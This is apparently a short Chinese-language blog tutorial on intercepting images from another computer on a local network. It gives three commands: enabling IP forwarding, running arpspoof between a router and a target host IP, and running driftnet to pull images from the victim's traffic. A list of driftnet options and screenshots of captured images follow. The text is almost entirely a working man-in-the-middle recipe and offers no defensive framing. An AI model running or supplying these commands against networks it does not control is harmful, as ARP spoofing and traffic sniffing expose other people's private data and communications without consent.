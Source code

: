 ### 其实这个也是非常简单，只有三句命令就可以实现。没啥技术难度，不过只能在局域网内实现。

##### 1、更改转发模式

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2q4h2n18j30vv0u07wh.jpg" alt="image-20200523215235878"  />

##### 2、arp攻击             

```
 arpspoof -i eth0 -t 192.168.1.1  192.168.1.100
 
  arpspoof -i eth0 -t 192.168.123.1  192.168.123.119
 
#arpspoof -i eth0 -t [路由器ip] [目标主机ip]
```

> `192.168.123.1`是我路由器地址，`192.168.123.116`是我笔记本的地址

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2pnalgspj30vq0u01ky.jpg" alt="image-20200523213603947"  />

##### 3、数据还原分析      

```
# driftnet -i eth0
//eth0是网卡
```

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2proex9tj30u00vy7wh.jpg" alt="image-20200523214018000"  />

###### 参数命令

> ` -b ` ：捕获到新的图片时发出嘟嘟声
>
> ` -i interface` ：选择监听接口
>
> `-f file `：读取一个指定pcap数据包中的图片
>
> ` -p` ：不让所监听的接口使用混杂模式
>
> ` -a` ：后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
>
> ` -m number` ：指定保存图片数的数目
>
> `-d directory` ：指定保存图片的路径
>
> `-x prefix `：指定保存图片的前缀名

### 结果：

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2pzieux9j31400u0qv8.jpg" alt="41590241281_.pic_hd"  />

> 左边电脑是被攻击者，右边窗口中的图片就是截取被攻击者网络数据包中抓取的图片

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2q2mw4k2j30u00v5qv5.jpg" alt="image-20200523215050019"  />

> 截取的所有照片都会在文件夹中显示